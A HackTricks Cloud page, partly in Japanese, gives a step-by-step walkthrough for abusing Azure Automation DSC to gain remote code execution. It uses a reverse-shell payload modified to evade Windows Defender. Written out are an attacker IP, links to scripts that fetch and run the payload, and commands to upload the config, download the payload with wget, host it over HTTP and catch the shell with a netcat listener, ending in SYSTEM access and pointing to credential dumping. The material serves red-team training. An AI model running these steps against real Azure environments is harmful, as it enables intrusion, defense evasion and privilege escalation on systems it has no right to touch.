 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

このプロセスは、Windows Defenderを回避するように設計された修正されたNishang `Invoke-PowerShellTcp.ps1`ペイロード、`RevPS.ps1`をホストするためのリモートサーバーインフラストラクチャの設定を含みます。ペイロードは、IP `40.84.7.74`のKali LinuxマシンからシンプルなPython HTTPサーバーを使用して提供されます。この操作は、いくつかのステップを通じて実行されます。

#### Step 1 — Create Files

* **Files Required:** 必要なPowerShellスクリプトは2つです：
1. `reverse_shell_config.ps1`: ペイロードを取得して実行するDesired State Configuration (DSC)ファイル。これは[GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1)から入手可能です。
2. `push_reverse_shell_config.ps1`: VMに構成を公開するためのスクリプトで、[GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1)で入手できます。
* **Customization:** これらのファイル内の変数とパラメータは、リソース名、ファイルパス、サーバー/ペイロード識別子を含むユーザーの特定の環境に合わせて調整する必要があります。

#### Step 2 — Zip Configuration File

* `reverse_shell_config.ps1`は、Azure Storage Accountへの転送の準備が整うように`.zip`ファイルに圧縮されます。
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — ストレージコンテキストの設定とアップロード

* ZIP形式の構成ファイルは、AzureのSet-AzStorageBlobContent cmdletを使用して、事前定義されたAzure Storageコンテナazure-pentestにアップロードされます。
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### ステップ 4 — Kali ボックスの準備

* Kali サーバーは、GitHub リポジトリから RevPS.ps1 ペイロードをダウンロードします。
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* スクリプトは、ターゲットのWindows VMとリバースシェルのポートを指定するように編集されます。

#### Step 5 — 設定ファイルを公開する

* 設定ファイルが実行され、リバースシェルスクリプトがWindows VMの指定された場所にデプロイされます。

#### Step 6 — ペイロードをホストし、リスナーを設定する

* ペイロードをホストするためにPythonのSimpleHTTPServerが起動され、受信接続をキャプチャするためのNetcatリスナーが設定されます。
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* スケジュールされたタスクがペイロードを実行し、SYSTEMレベルの特権を達成します。

#### 結論

このプロセスの成功した実行は、資格情報のダンプや攻撃を複数のVMに拡大するなど、さらなるアクションの可能性を開きます。このガイドは、Azure Automation DSCの領域での継続的な学習と創造性を奨励しています。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
